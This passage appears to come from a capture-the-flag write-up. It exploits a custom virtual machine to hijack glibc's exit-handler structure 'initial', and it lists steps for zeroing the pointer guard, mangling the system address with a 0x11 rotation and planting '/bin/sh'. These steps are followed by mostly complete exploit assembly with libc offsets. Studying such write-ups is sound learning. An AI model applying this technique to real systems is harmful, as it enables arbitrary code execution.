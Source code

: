 It uses vm's stack also, so it has to be writable. 

Now we have everything to write the final exploit, so the steps are following:
- overwrite `fs:[0x30]` with 0
- calculate address of `system` and store it in the registers
- do `rol(0x11)` on stored address
- find address of `/bin/sh` string in libc and store it in the registers
- write mangled `system` addr to `fn` field of struct called `initial`
- write address of `/bin/sh` string to `arg` field of struct called `initial`
- run the exploit


Final exploit looks like this:

```asm
# move sp to start of libc
add esp, 0x3e03ff0
mov ebp, esp

add esp, 0x219050 # GOT calloc leak
pop r08
sub r08, 0x28080
pop r09
# libc base in r9 << 32 | r8


# clear fs:0x30
mov esp, ebp
sub esp, 0x2888
push 0
push 0


# craft system addr
mov eax, r09
mov ebx, r08
add ebx, 0x50d60 

# rol system addr by 0x11 (make vm stack writable)
sub esp, 0x1000
mov esi, 0x11
call rol
add esp, 0x1000
prn ebx
prn eax
jmp write_payload

// rol function implementation skipped


write_payload:

# move esp to `initial`
mov esp, ebp
add esp, 0x21af20
add esp, 8

# save /bin/sh to `arg` field
mov edx, r08
add edx, 0x1d8698
push r09
push edx

# save mangled system addr to `at` field
push eax
push ebx
```